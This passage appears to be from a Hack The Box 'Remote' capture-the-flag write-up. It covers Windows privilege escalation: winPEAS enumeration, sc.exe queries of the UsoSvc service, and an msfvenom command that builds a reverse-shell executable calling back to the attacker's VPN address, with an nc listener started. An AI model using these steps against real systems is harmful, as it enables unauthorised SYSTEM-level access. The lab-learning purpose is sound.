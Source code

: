 PS C:\windows\system32\inetsrv> cd c:\Windows\System32\spool\drivers\color\
PS C:\Windows\System32\spool\drivers\color> .\winPEASx64.exe
{% endhighlight %}

`winPEAS` revealed that we have all access to the service `UsoSvc`:

![](/assets/img/htb/machines/windows/easy/remote/winPEAS.png)

Let's get the current status and config of the service:

{% highlight powershell %}
PS C:\Windows\System32\spool\drivers\color> sc.exe query UsoSvc

SERVICE_NAME: UsoSvc 
        TYPE               : 30  WIN32  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS C:\Windows\System32\spool\drivers\color> sc.exe qc UsoSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: UsoSvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem
{% endhighlight %}

Okay, maybe we can stop the service and try to change its `BINARY_PATH_NAME` by a malicious file.

- We can generate a malicious executable with `msfvenom` and start a listener:

{% highlight bash %}
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(vpnip) LPORT=53 -f exe -o privesc.exe                                                            
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: privesc.exe
$ nc -lnvp 53
listening on [any] 53 ...
{% endhighlight %}

